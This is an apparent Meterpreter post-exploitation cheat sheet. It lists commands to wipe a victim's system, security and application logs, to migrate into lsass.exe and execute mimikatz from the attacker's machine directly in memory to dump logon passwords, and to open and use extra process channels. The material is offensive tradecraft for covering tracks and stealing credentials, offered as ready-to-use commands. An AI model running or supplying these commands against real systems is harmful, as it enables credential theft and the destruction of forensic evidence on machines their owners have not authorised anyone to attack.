 ## <mark style="color:red;">Clear Victim System Logs</mark>&#x20;

(system, security & application logs)

```
clearev
```

## <mark style="color:red;">Execute Commands Directly From Memory</mark>

#### The executable file can be on attacker side since meterpreter is running completely in memory, we can execute remote binaries directly in memory.

```
execute -h
```

example:

#### execute mimikatz directly from memory(binary is on attacker side):

```
migrate -N lsass.exe
execute -H -i -c -m -d calc.exe -f /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

#### adding command parameters( -a)

```
execute -H -i -c -m -d calc.exe -f /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -a '"sekurlsa::logonpasswords" exit'
```

## <mark style="color:red;">Multiple Connection Channels</mark>

example:

open notepad app in a different channel

```
execute -f notepad.exe -c
```

list channels

```
channel -l 
```

read/write data to a channel

```
write [option] [channel id]
read
```
